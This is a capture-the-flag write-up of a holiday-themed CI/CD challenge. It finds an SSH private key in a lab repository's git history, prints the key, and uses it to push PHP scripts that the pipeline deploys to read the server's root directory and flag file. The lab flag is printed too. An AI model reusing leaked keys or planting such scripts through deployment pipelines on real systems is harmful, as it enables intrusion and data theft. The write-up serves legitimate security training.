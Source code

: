 
# Objective 7: Jolly CI/CD
**Location: Elfen Ring**  
**Elf: Rippin Proudboot**

This objective is about getting familiar with the benefits and risks of CI/CD pipelines.

First we clone the repository and check with ```git log``` for any "interesting" commit comments. Then we use ```git diff``` to show the delta between those.
```
git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
git log
git diff abdea0ebb21b156c01f7533cea3b895c26198c98 e19f653bde9ea3de6af21a587e41e7a909db1ca5

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----
```
Next we copy this SSH private key into ```~/.ssh/id_rsa```.

```
git config --global user.email "joergen@north.pole"
git config --global user.name "joergen"
git remote set-url origin git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git
```

Next we check in a PHP script ```test.php``` to list the contents of the root directory, which will automatically be deployed into the web root:
```
<?php
if ($handle = opendir('/')) {
  while (false !== ($entry = readdir($handle))) {
    if ($entry != "." && $entry != "..") {
      echo "$entry\n";
    }
  }
  closedir($handle);
}
?>
```

```
git add test.php
git commit -m.
git push
curl http://wordpress.flag.net.internal/test.php
[...]
var
bin
mnt
.dockerenv
flag.txt
```

Next we modify the script to reveal the flag:
```
<?php
echo file_get_contents('/flag.txt');
?>
```

```
git add test.php
git commit -m.
git push
curl http://wordpress.flag.net.internal/test.php
[...]
oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT
```

**oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT**

**Achievement: Jolly CI/CD**
